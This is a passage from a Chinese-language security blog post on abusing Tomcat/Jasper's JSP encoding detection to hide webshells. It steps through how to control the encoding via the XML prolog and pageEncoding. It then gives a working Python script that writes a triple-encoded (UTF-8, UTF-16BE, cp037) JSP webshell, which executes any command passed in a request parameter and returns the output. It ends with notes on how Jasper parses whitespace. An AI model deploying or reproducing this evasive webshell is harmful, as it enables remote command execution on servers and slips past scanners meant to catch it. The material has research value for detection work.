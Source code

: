 聪明的你一定能看出这里的`sourceEnc`是我们可以控制的(前面讲过了忘了往上翻复习下)

因此我们对整个利用梳理一下

1. 保证无法通过BOM识别出文本内容编码(保证isBomPresent为false)
2. 通过`<?xml encoding='xxx'`可以控制`sourceEnc`的值
3. 将标签`<jsp:directive.`或`<%@`放置在全文任意位置但不影响代码解析
4. 通过标签`<jsp:directive.`或`<%@`的`pageEncoding`属性再次更改文本内容编码

这里我按要求随便写了一个符合的例子

```java
a0 = '''<?xml version="1.0" encoding='cp037'?>'''
a1 = '''<%
    Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));
    java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
    String line = "'''
a2 = '''<%@ page pageEncoding="UTF-16BE"%>'''
a3 = '''";
    while ((line = input.readLine()) != null) {
        out.write(line+"\\n");
    }
%>'''
with open("test3.jsp","wb") as f:
    f.write(a0.encode("utf-8"))
    f.write(a1.encode("utf-16be"))
    f.write(a2.encode("cp037"))
    f.write(a3.encode("utf-16be"))
```

生成三重编码文件

![img](https://y4tacker.github.io/2022/11/27/year/2022/11/%E6%B5%85%E8%B0%88JspWebshell%E4%B9%8B%E7%BC%96%E7%A0%81/12.png)

测试利用

![img](https://y4tacker.github.io/2022/11/27/year/2022/11/%E6%B5%85%E8%B0%88JspWebshell%E4%B9%8B%E7%BC%96%E7%A0%81/13.png)

### 其他

其实在这个过程当中还顺便发现了一个有趣的东西，虽然和讲编码的主题无关，但个人觉得比较有意思就顺便放在最后了，对于jsp不同的部分对应的空格判定是不同的

比如在对xml文件头做解析的时候(`<?xml version="1.0" encoding="utf-8" ?>`)

这里调用的是`org.apache.jasper.xmlparser.XMLChar#isSpace`

```java
public static boolean isSpace(int c) {
        return c <= 0x20 && (CHARS[c] & MASK_SPACE) != 0;
} 
```

省去给大家看常量浪费时间，这里当课代表总结一下就是四个字符`\x0d`、`\x0a9`、`\x0a`、`\x0d`

而在识别`<%@ page language="java" pageEncoding="utf-16be"%>`这部分中对空格的判定调用的是`org.apache.jasper.compiler.JspReader#isSpace`，这里判断的空格只要保证在`\x20`之前即可

```java
final boolean isSpace() {
  return peekChar() <= ' ';
}
```

### 参考

[浅谈JspWebshell之编码 (y4tacker.github.io)](https://y4tacker.github.io/2022/11/27/year/2022/11/浅谈JspWebshell之编码/)

p神星球内容
